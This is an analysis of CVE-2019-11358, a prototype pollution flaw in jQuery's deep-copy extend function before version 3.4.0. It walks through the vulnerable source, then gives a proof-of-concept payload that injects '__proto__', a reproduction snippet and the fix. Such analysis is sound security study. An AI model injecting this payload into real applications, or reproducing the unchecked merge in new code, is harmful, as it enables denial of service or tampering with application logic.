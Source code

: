 # CVE-2019-11358 Vulnerability Analysis

Author: H3rmesk1t

Data: 2022.04.24

# Vulnerability Information
`CVE-2019-11358`Prototype pollution vulnerability: `jQuery` before `3.4.0` version has a prototype pollution vulnerability. Attributes controlled by the attacker can be injected into the object, and then trigger a denial of service by triggering a `JavaScript` exception, or tampering with the application source code to enforce the code path injected by the attacker.

<div align=center><img src="./images/1.png"></div>

`PoC` is as follows:

```javascript
$.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'))

console.log(exploit);
```

# Vulnerability Analysis
Check out the `JQuery` source code of `3.3.1` version, the vulnerability point is in the `extend` function in the `src/core.js` file. If the first parameter of the function is Boolean `true`, the merge operation is in the deep copy mode.

```javascript
jQuery.extend = jQuery.fn.extend = function() {
	var options, name, src, copy, copyIsArray, clone,
		target = arguments[ 0 ] || {},
		i = 1,
		length = arguments.length,
		deep = false;

	// Handle a deep copy situation
	if ( typeof target === "boolean" ) {
		deep = target;

		// Skip the boolean and the target
		target = arguments[ i ] || {};
		i++;
	}

    ......

};
```

After judging by the `if` function, enter the `for` loop, and take the passed parameter `arguments[i]`, and then assign the `options` traversal to `copy`, that is, `copy` is externally controlled.

```javascript
for ( ; i < length; i++ ) {

    // Only deal with non-null/undefined values
    if ( ( options = arguments[ i ] ) != null ) {

        // Extend the base object
        for ( name in options ) {
            src = target[ name ];
            copy = options[ name ];

            ......

        }
    }
}
```

Then determine whether `copy` is an array. If so, call the `jQuery.extend()` function, which is used to merge the contents of one or more objects into the target object. Here, expand the externally controllable `copy` array into the `target` array; if `copy` is not an array but an object, directly assign the `copy` variable value to `target[name]`.

```javascript
// Recurse if we're merging plain objects or arrays
if ( deep && copy && ( jQuery.isPlainObject( copy ) ||
    ( copyIsArray = Array.isArray( copy ) ) ) ) {

    if ( copyIsArray ) {
        copyIsArray = false;
        clone = src && Array.isArray( src ) ? src : [];

    } else {
        clone = src && jQuery.isPlainObject( src ) ? src : {};
    }

    // Never move original objects, clone them
    target[ name ] = jQuery.extend( deep, clone, copy );

// Don't bring in undefined values
} else if ( copy !== undefined ) {
    target[ name ] = copy;
}
```

At this time, if `name` is set to `__proto__`, it will affect the prototype of `target` upward, and then overwrite the prototype contamination. When `target` array, the parameter passed in arguments[0]`: `target = arguments[0] || {}`.

The `target` variable can be set to the value corresponding to the key `name` of the `target` array through the first element of the parameter `arguments` array passed outside. The `options` variable can be assigned through the parameter `arguments[i]` passed outside. The `copy` variable is assigned by `options`, which leads to the `copy` variable being externally controllable, and finally `copy` will be combined or assigned to the `target` array. Therefore, when `target[__proto__] = externally controllable copy`, there is a prototype pollution vulnerability.

# Vulnerability reappears

```javascript
var jquery = document.createElement('script');
jquery.src = 'https://code.jquery.com/jquery-3.3.1.min.js';

let exp = $.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'));
console.log({}.exploit);
```

<div align=center><img src="./images/2.png"></div>

# Vulnerability Fix
`jQuery` fixed this vulnerability in `3.4.0` version. By judging whether there is `__proto__` in the attribute, if there is, skip it and not merge it.

<div align=center><img src="./images/3.png"></div>